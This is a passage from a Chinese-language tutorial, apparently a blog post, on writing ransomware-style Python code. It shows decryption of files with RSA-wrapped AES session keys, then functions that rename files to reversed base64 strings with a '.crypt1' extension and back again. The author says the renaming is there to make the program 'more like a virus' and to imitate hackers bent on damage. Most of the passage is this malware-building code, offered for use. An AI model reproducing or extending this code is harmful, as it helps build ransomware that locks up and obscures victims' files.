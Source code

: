 ```python
        session_key = cipher_rsa.decrypt(enc_session_key)
        cipher_aes = AES.new(session_key, AES.MODE_EAX, nonce)
        # 解密
        data = cipher_aes.decrypt_and_verify(ciphertext, tag)
    
    with open(filename, 'wb') as wobj:
        wobj.write(data) 

```

我们先以二进制模式读取我们的加密文件，然后导入私钥。注意，当你导私钥时，需要提供一个密码，否则会出现错误。然后，我们文件中读取数据，首先是加密的会话密钥，然后是 16 字节的随机数和 16 字节的消息认证码，最后是剩下的加密的数据。

接下来我们需要解密出会话密钥，重新创建 AES 密钥，然后解密出数据。

解密完成后，我们会发现刚刚打不开或者无法正确显示的文件，又恢复正常了！

# 五、文件名处理

当然至此，文件加密的部分已经完成，但是为了使这个更像病毒，我们可以模拟黑客的做法，直接把整个文件的后缀名改掉，或者更混蛋一点，我就是想搞破坏，直接把文件名字改成一串没有意义的数值：

## 5.1 文件重命名

举例比如：blog2.rar ==> yFmcuIzZvxmY.crypt1

```python
import os
import base64

def RenameFile(dir,filename):
    filename_bytes = filename.encode('utf-8')

    filename_bytes_base64 = base64.encodestring(filename_bytes)    
    filename_bytes_base64 = filename_bytes_base64[::-1][1:]   # 倒序
    
    new_filename = filename_bytes_base64.decode('utf-8') + '.crypt1'
    
    #print (new_filename)
    print(os.path.join(dir, filename))
    print(os.path.join(dir,new_filename))
    os.rename(os.path.join(dir, filename), os.path.join(dir,new_filename))
```

使用了base64对文件名进行编码。

## 5.2 恢复文件名

举例比如: yFmcuIzZvxmY.crypt1 ==> blog2.rar

```python
import os
import base64

def ReserveFilename(dir, filename):
    f = filename
    filename = filename[::-1][7:][::-1]
    filename_base64 = filename[::-1] + '\n'
    filename_bytes_base64 = filename_base64.encode('utf-8')
    ori_filename = base64.decodestring(filename_bytes_base64).decode('utf-8')
    print(os.path.join(dir, f))
    print(os.path.join(dir,ori_filename))
    os.rename(os.path.join(dir, f),os.path.join(dir,ori_filename))
```
